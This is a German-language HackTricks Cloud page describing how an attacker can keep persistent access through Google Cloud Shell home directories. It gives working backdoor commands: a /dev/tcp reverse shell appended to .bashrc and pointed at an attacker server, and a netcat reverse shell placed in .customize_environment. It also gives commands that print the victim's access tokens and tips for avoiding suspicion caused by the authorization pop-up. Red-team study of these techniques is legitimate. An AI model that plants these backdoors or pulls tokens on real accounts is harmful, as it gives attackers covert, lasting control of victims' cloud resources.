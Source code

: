 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Cloud Shell

Für weitere Informationen siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistente Hintertür

[**Google Cloud Shell**](https://cloud.google.com/shell/) bietet Ihnen direkten Zugriff auf Ihre Cloud-Ressourcen über die Befehlszeile direkt aus Ihrem Browser, ohne damit verbundene Kosten.

Sie können auf Googles Cloud Shell über die **Webkonsole** oder durch Ausführen von **`gcloud cloud-shell ssh`** zugreifen.

Diese Konsole hat einige interessante Fähigkeiten für Angreifer:

1. **Jeder Google-Nutzer mit Zugriff auf Google Cloud** hat Zugriff auf eine vollständig authentifizierte Cloud Shell-Instanz (Dienstkonten können dies, selbst wenn sie Eigentümer der Organisation sind).
2. Diese Instanz wird **ihr Home-Verzeichnis mindestens 120 Tage lang beibehalten**, wenn keine Aktivität stattfindet.
3. Es gibt **keine Möglichkeiten für eine Organisation, die Aktivität** dieser Instanz zu überwachen.

Das bedeutet im Grunde, dass ein Angreifer eine Hintertür im Home-Verzeichnis des Benutzers platzieren kann, und solange der Benutzer alle 120 Tage mindestens eine Verbindung zur GC Shell herstellt, wird die Hintertür überleben und der Angreifer erhält jedes Mal eine Shell, wenn sie ausgeführt wird, indem er einfach Folgendes tut:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Es gibt eine weitere Datei im Home-Ordner namens **`.customize_environment`**, die, falls sie existiert, **jedes Mal** ausgeführt wird, wenn der Benutzer auf die **cloud shell** zugreift (wie in der vorherigen Technik). Fügen Sie einfach die vorherige Hintertür oder eine ähnliche wie die folgende ein, um die Persistenz aufrechtzuerhalten, solange der Benutzer die cloud shell "häufig" verwendet:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es ist wichtig zu beachten, dass beim **ersten Mal, wenn eine Aktion, die eine Authentifizierung erfordert, ausgeführt wird**, ein Pop-up-Autorisierungsfenster im Browser des Benutzers erscheint. Dieses Fenster muss akzeptiert werden, bevor der Befehl ausgeführt werden kann. Wenn ein unerwartetes Pop-up erscheint, könnte dies Verdacht erregen und potenziell die verwendete Persistenzmethode gefährden.
{% endhint %}

Dies ist das Pop-up von der Ausführung von `gcloud projects list` aus der Cloud-Shell (als Angreifer) im Benutzer-Sitzung des Browsers gesehen:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Wenn der Benutzer jedoch die Cloud-Shell aktiv genutzt hat, erscheint das Pop-up nicht und Sie können **Tokens des Benutzers mit**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Wie die SSH-Verbindung hergestellt wird

Grundsätzlich werden diese 3 API-Aufrufe verwendet:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (wird Sie auffordern, Ihren lokal erstellten öffentlichen Schlüssel hinzuzufügen)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (wird Sie auffordern, die Instanz zu starten)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (wird Ihnen die IP des Google Cloud Shell mitteilen)

Weitere Informationen finden Sie unter [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referenzen

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
